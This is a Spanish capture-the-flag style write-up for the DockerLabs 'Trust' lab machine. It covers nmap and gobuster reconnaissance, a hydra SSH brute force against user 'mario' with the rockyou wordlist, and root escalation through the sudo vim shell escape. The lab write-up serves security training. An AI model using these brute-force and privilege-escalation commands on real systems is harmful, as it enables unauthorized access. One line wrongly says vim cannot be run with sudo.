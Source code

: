 # [Trust](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh trust.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2` 
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>
`-c 1` ⮞ solo lo repite una vez<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>
Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos que están abiertos los puertos **22** y **80**

![nmap](https://github.com/TerrorAterrador/WriteUps/assets/128630899/ef28633b-ba49-4df1-8d2d-4efc516c8471)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Podemos ver la página por defecto de Apache2. <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d09804e2-0341-441d-a492-7ad982bd17dd)

<br>
<br>

## Gobuster

Vamos a listar posibles directorios y/o archivos que estén en este servidor http podemos ver que nos reporta lo siguiente: 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b5547af2-70d4-44cd-a69a-eac4543b8b4c)

<br>

Por lo que vamos a la siguiente dirección `http://172.17.0.2/secret.php`, y nos aparece lo siguiente: 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f3779a93-37ea-4aa1-92bc-2bb5c8f7dbee)

<br>
<br>

## Medusa / Hydra
Ahora conocemos un posible usuario de nombre `mario` con posibilidades de ser candidato a pertenecer a la máquina Trust. Gracias a hydra haremos un ataque de fuerza fruta al puerto 22, el cual aloja el servicio SSH. `hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 ` <br>
`-l` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
`ssh://172.17.0.2` ⮞ especificamos el servicio (ssh) y la ruta de la máquina <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/2d1f865d-bc27-4c15-af13-7dd6b6253d7c)

<br>
<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina Trust con `ssh mario@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución.* <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)

<br>
<br>

## Escala de Privilegios
Comprobamos que hemos podido ingresar a la Máquina Víctima como **mario** si hacemos `whoami`.


![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ffc371ba-61fc-44be-8cbc-8c86fda4cd94)

<br>

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/vim` como sudo.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7d1820f4-87cf-4a00-8a56-25cf023dcaf8)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en vim, y nos encontramos con lo siguiente `sudo vim -c ':!/bin/sh'`, que lo que haría sería ejecutar vim y después escaparte de este editor con la `!` y escribiendo ``/bin/sh`.

A continuación probaremos a ejecutar dicho comando en primer lugar ponemos -> `sudo vim`, una vez dentro del editor de vim escribimos `:!/bin/bash`

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/27a39d36-6c20-4eb1-a7cf-9181023cc1ee)
<br>

Y listo ya seríamos root!!

